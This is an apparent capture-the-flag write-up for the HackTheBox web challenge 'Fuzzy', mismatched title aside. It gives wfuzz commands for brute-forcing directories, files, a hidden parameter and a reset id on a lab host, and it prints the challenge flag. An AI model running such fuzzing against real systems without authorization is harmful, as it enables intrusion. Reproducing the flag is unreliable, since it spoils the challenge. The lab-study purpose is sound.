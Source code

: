 # MarketDump
## Challenge
HackTheBox -> Challenges -> Web -> Fuzzy
## Tools
Tool | Description
------- | -------
[Wfuzz](https://wfuzz.readthedocs.io/en/latest/) | WFuzz is a web application security fuzzer tool and library for Python.
## Description
![Page](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/07_00.png)

We use WFuzz to discovery all the directory with this command:
```
wfuzz -c -w wordlist/Discovery/Web-Content/raft-large-directories.txt --hc 404 "http://docker.hackthebox.eu:39133/FUZZ"
```
![api](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/07_01.png)

Then we fuzz for files
```
wfuzz -c -w wordlist/Discovery/Web-Content/raft-large-files-lowercase.txt --hc 404 "http://docker.hackthebox.eu:39133/api/FUZZ"
```
![action.php](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/07_02.png)

We see the page and get the error:

![parameter error](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/07_03.png)

We use this command to retrive the parameter:
```
wfuzz -c -w wordlist/Discovery/Web-Content/raft-large-words-lowercase.txt --hh 24 "http://docker.hackthebox.eu:39133/api/action.php?FUZZ=test"
```
![reset](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/07_04.png)

In the page we get the error:

![error id](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/07_05.png)

With this command we get the id:
```
wfuzz -c -w wordlist/Discovery/Web-Content/raft-large-words-lowercase.txt --hh 27 "http://docker.hackthebox.eu:39133/api/action.php?reset=FUZZ"
```
![20](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/07_06.png)

Then at this page we get the flag

![FLAG](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/07_07.png)

## FLAG
***HTB{h0t_fuzz3r}***
